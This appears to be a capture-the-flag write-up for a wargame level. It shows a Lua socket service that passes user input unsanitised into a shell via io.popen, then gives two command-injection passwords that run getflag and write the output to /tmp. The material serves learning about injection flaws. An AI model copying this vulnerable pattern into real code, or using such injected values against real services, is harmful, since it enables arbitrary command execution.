


# Start



*level11.lua*
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

As we can see this script run on `localhost:5151`, once connected to it a password is asked. Then the password is hashed through bash `echo [password] | sha1sum` and then the script either return "Erf nope.." or "Gz you dump".
This is quite easy to solve. We need to adjust the password so that getflag is executed and stored somewere.

So something like that:
- pass = `$(getflag >/tmp/flag11)` => `echo $(getflag >/tmp/flag11) | sha1sum`
- pass = `""; getflag >/tmp/flag11; echo ""` => `echo ""; getflag >/tmp/flag11; echo "" | sha1sum`

